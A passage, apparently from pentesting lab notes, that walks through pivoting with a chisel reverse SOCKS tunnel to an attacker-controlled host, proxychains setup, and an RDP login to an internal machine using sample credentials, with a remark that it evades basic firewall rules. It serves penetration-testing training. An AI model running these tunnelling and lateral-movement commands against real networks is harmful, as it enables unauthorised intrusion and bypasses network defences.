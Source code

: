 ```shell-session
./chisel client -v <ATTACKING IP>:1234 R:socks
```

3. Ensure the `proxychains.conf` file has the current entry:&#x20;

```
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

4. Attack:

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

{% hint style="success" %}
**This method will help us evade basic firewall rules, if any.**
{% endhint %}

